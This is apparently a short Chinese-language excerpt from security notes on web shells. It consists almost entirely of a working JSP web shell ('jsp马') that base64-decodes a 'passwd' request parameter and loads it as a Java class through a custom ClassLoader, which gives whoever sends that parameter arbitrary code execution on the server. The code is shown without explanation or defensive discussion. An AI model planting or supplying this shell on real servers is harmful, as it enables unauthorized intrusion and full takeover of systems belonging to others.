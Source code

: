 ![image-20230814144237044](img/WebShell/image-20230814144237044.png)

**jsp**马如下：

```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>

```